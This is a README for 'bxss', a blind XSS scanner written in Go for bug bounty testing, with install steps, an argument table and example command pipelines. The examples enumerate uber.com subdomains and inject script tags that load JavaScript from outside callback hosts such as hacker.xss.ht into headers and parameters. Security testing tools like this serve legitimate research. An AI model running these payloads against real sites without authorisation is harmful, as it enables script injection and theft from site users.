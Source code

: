 <h1 align="center">
  <br>
<img src="https://github.com/ethicalhackingplayground/bxss/blob/main/static/blinded-drib.jpg" width="200px" alt="Bxss">
</h1>
<h1 align="center">
Bxss - Blind XSS Scanner

[![Version](https://img.shields.io/github/v/release/ethicalhackingplayground/bxss?style=flat-square)](https://github.com/ethicalhackingplayground/bxss/releases/latest)
[![License](https://img.shields.io/github/license/ethicalhackingplayground/bxss?style=flat-square)](https://github.com/ethicalhackingplayground/bxss/blob/main/LICENSE)
[![Go Report Card](https://goreportcard.com/badge/github.com/ethicalhackingplayground/bxss?style=flat-square)](https://goreportcard.com/report/github.com/ethicalhackingplayground/bxss)
[![Go Reference](https://pkg.go.dev/badge/github.com/ethicalhackingplayground/bxss.svg)](https://pkg.go.dev/github.com/ethicalhackingplayground/bxss)

## </h1>

## Description

Blind XSS Scanner is a tool that can be used to scan for blind XSS vulnerabilities in web applications.

---

### Features

- Inject Blind XSS payloads into custom headers
- Inject Blind XSS payloads into parameters
- Uses Different Request Methods (PUT,POST,GET,OPTIONS) all at once
- Tool Chaining
- Really fast
- Easy to setup

## Install

```
go install -v github.com/ethicalhackingplayground/bxss/v2/cmd/bxss@latest
```

---

## Arguments

| Argument              | Description                              | Default      |
| --------------------- | ---------------------------------------- | ------------ |
| `-appendMode`         | Append the payload to the parameter      |              |
| `-concurrency int`    | Set the concurrency                      | 30           |
| `-header string`      | Set the custom header                    | "User-Agent" |
| `-headerFile string`  | Path to file containing headers to test  |              |
| `-parameters`         | Test the parameters for blind xss        |              |
| `-payload string`     | The blind XSS payload                    |              |
| `-payloadFile string` | Path to file containing payloads to test |              |

---

## Demonstration

[![asciicast](https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm.svg)](https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm)

---

### Blind XSS In Parameters

```bash
subfinder uber.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hacker.xss.ht></script>' -parameters
```

### Blind XSS In X-Forwarded-For Header

```bash
subfinder uber.com | gau | bxss -payload '"><script src=https://z0id.xss.ht></script>' -header "X-Forwarded-For"
```

---

**If you get a bounty please support by buying me a coffee**

<br>
<a href="https://buymeacoffee.com/zoidsec" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>
